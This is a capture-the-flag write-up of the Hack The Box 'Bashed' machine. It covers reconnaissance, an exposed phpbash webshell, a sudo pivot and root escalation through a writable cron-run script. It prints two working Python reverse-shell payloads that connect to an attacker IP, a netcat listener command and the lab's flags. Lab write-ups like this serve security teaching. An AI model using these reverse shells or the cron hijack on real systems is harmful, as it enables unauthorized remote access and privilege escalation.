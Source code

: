 # Bashed

<div align="left"><figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure></div>

🔗 [Bashed](https://www.hackthebox.com/machines/bashed)

### Task 1 - Deploy the machine

🎯 Target IP: `10.129.236.215`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.129.236.215 bashed.htb" >> /etc/hosts

mkdir -p htb/bashed.htb
cd htb/bashed.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 bashed.htb
PING bashed.htb (10.129.236.215) 56(84) bytes of data.
64 bytes from bashed.htb (10.129.236.215): icmp_seq=1 ttl=63 time=67.3 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=2 ttl=63 time=64.2 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=3 ttl=63 time=79.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - How many open TCP ports are listening on Bashed??

```bash
nmap -p0- -sS -Pn -vvv bashed.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there's 1 open TCP port on the machine: 80

{% hint style="info" %}
1
{% endhint %}

### 2.2 - What is the relative path on the webserver to a folder that contains phpbash.php??

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p80 -sS -Pn -n -v -sCV -T4 bashed.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
```

#### Port 80

Browsing webserver on port 80 via browser, that contains a web php bash.

<figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

Analyzing source code we don't found nothing of interesting, than we can discover more info about website using whatweb and do directory enumeration using gobuster.

```bash
whatweb bashed.htb
http://bashed.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.215], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

```
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure></div>

Very good, we've found interisting web dir such as /dev and /uploads, exploring them we can answer at our question.

<figure><img src="../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/dev
{% endhint %}

### 2.3 - What user is the webserver running as on Bashed?

The /dev directory contains two php webshell, more probably phpbash.min.php is a minimal bash or beta version while phpbash.php is full version.

In both cases, we immediately observe that the user in use is the same.

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
www-data
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the arrexel user's home directory.

Navigating into file system is more simple discover users home directories and arrexel user's flag.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

b2e6af7c997eba350b6cf95ad88240cb

</details>

### 3.2 - www-data can run any command as a user without a password. What is that user's username?

Using sudo -l we can see that www-data can run all commands on bashed as a user scriptmanager.

<figure><img src="../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
scriptmanager
{% endhint %}

### 3.3 - What folder in the system root can scriptmanager access that www-data could not?

Going into root dir / we can launch ls -l and see all permissions regarding directories.

<div align="left"><figure><img src="../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure></div>

{% hint style="info" %}
/scripts
{% endhint %}

### 3.4 - What is filename of the file that is being run by root every couple minutes?

"Every couple minutes" is an hint to understand possibile route.

But, we decide to give a reverse shell on our attacker machine to optimize our work, to do it we need to make us in listening mode using netcat `nc -lvnp 1339` and execute a python script on web shell.

```python
export RHOST="10.10.14.6";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left"><figure><img src="../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure></div>

Remembering the question's hint and the last task, where only the scriptmanager can access the /scripts folder, we can access it as the scriptmanager user spawning a a bash shell

```bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Trying to use sudo -l commands, the system asks us for a password that we don't know.

Now, we've permissions access to /scripts dir, where we found two files:

<div align="left"><figure><img src="../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure></div>

Additionally, the program `test.py` appears to be scheduled to execute almost every minute, based on the last access time of `test.txt`. From this, we can infer that there may be a cron job owned by root that automatically runs `test.py` every minute. We can confirm this by renaming `test.txt` (e.g., to `test.txt.old`) and observing that a new `test.txt` file is created after a minute or so."

This is useful because we can modify the contents of `test.py` to include reverse shell code, which would then execute with root privileges.

Next, let's create a new file named `test.py` on our Kali box and insert the same reverse shell code we used earlier. We'll then transfer this file to the target 'Bashed' machine.

```python
echo "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.14.6',4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/sh','-i']);" > test.py
```

{% hint style="info" %}
test.py
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in root's home directory.

Immediately before or at least within two minutes we listen with netcat on the attacker machine, and we obtain a shell with root permissions.

<div align="left"><figure><img src="../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure></div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

40ca417765210f39b12b2d78813ebcfe

</details>
